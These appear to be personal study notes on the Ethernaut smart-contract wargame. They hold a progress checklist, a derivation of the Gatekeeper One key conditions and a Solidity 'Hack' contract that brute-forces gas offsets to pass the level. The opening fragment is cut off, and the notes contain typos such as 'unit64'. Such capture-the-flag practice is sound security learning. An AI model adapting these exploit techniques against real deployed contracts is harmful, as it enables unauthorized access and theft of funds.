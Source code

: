 With the full 64 bytes:
- First 32 bytes of all AA's: provides the high 4 bits of each byte
- Second 32 bytes of alternating 0B's: provides the low 4 bits of each byte
- After AND+OR operations: produces exactly ABABAB... which is the target value


# Ethernaut

[x] - Ethernaut 8
[x] - Ethernaut 12
[x] - Ethernaut 13
[x] - Ethernaut 18
[] - Ethernaut 19


- Ethernaut 13


We need to find that:
```
key = unit64(_gateKey)
uint32(key) == unit16(key)
uint32(key) != key
uint32(key) == uint16(uint160(tx.origin))
```

If we have a bigger number, it might cut off the bits from the left 

```
uint64 k64 = uint64(1 << 63) + uint64(k16);
bytes8 key = bytes8(k64)
```



```

contract Hack {
    
    GatekeeperOne victim;
    
    constructor(address _victim) {
        victim = GatekeeperOne(_victim);
        uint16 keyOrigin = uint16(uint160(tx.origin));
        uint64 keyBits = uint64(1 << 63) + uint64(keyOrigin);
        bytes8 key = bytes8(keyBits);
		for (uint256 i = 0; i < 8191; i++) {
            (bool result, ) = address(victim).call{gas: 24000 + i}(
                abi.encodeWithSignature(("enter(bytes8)"), key)
            );
            if (result) {
                break;
            }
        }
    }
}
```
